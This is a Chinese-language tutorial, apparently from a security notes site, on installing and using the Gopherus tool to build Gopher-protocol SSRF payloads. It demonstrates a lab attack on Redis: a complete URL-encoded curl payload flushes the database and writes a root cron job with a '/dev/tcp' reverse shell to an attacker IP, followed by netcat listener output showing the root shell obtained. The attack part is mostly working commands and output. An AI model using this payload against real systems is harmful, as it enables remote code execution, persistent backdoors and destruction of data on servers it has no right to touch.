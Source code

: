 在 SSRF 漏洞用于生成 Gopher Payload 的工具。

## 1 部署

下载

```shell
┌──(root㉿kali)-[~]
└─# git clone https://github.com/tarunkant/Gopherus.git /root/tools/gopherus && sudo sed -i 's/python2/python3/g' /root/tools/gopherus/install.sh
```

安装

```shell
┌──(root㉿kali)-[~]
└─# cd /root/tools/gopherus/ && bash install.sh && cd
```

## 2 使用

查看帮助

```shell
┌──(root㉿kali)-[~]
└─# gopherus -h
```

## 3 实战

**`redis`** 

安装 `redis` 并运行

```shell
[root@centos ~]# sudo yum install -y redis && sudo redis-server
```

攻击 `redis` 

```shell
┌──(root㉿kali)-[~]
└─# gopherus --exploit redis
```

选择反弹 `shell` 

```
What do you want?? (ReverseShell/PHPShell): ReverseShell
```

填写接收地址

```
Give your IP Address to connect with victim through Revershell (default is 127.0.0.1): 192.168.1.30
```

直接回车忽略

```
## For debugging(locally) you can use /var/lib/redis :
```

侦听端口

```shell
┌──(root㉿kali)-[~]
└─# nc -lvp 1234
```

发送 `url` 

```shell
[root@centos ~]# curl gopher://127.0.0.1:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2467%0D%0A%0A%0A%2A/1%20%2A%20%2A%20%2A%20%2A%20bash%20-c%20%22sh%20-i%20%3E%26%20/dev/tcp/192.168.1.30/1234%200%3E%261%22%0A%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2416%0D%0A/var/spool/cron/%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%244%0D%0Aroot%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A%0A
```

一分钟后接收到 `shell` 

```shell
┌──(root㉿kali)-[~]
└─# nc -lvp 1234
listening on [any] 1234 ...
connect to [192.168.1.30] from test.local [192.168.1.50] 33366
sh: 此 shell 中无任务控制
sh-4.2#
```

查看计划任务

```shell
[root@centos ~]# cat /var/spool/cron/root
```

```
*/1 * * * * bash -c "sh -i >& /dev/tcp/192.168.1.30/1234 0>&1"
```

---

参考链接

- [Gopherus](https://github.com/tarunkant/Gopherus)
